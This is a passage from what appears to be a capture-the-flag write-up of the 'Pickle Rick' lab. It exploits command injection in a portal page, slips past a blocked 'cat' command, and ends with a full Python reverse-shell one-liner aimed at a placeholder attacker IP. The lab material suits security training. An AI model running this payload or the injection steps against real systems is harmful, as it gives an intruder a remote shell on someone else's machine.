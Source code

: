 And it worked! We're in **portal.php**

![](/assets/images/picklerick/picklerickportal.png)

![](https://media.giphy.com/media/i2dE5VvBNxBw4/giphy.gif)

---

# Command Injection

Remember **portal.php** ?. Its says command panel. Can it run Linux commands?. Let's check it out.

![](/assets/images/picklerick/picklerickciid.png)

Yes, It does. Let's check the files.

![](/assets/images/picklerick/picklerickcils.png)

`Sup3rS3cretPickl3Ingred.txt`? It looks like we found our first ingredient!.

let's see what's inside the `Sup3rS3cretPickl3Ingred.txt` using `cat` command.

```bash
cat Sup3rS3cretPickl3Ingred.txt
```

![](/assets/images/picklerick/picklerickcatfail.png)

Uh oh!. We can't use `cat` command. Let's try `less` command then.

![](/assets/images/picklerick/picklerickciless.png)

Ah! Finally one ingredient found. 2 more to go. Hold on Rick!.

![](https://media.giphy.com/media/Rgo50jdPhiJRiGQH9C/giphy.gif)

---

# Reverse Shell

Since we have command injection ability, let's get a reverse shell. Head to [Pentestmonkey reverse shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

Start a netcat listener in the terminal.

![](/assets/images/picklerick/picklerickrs.png)

and run 

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

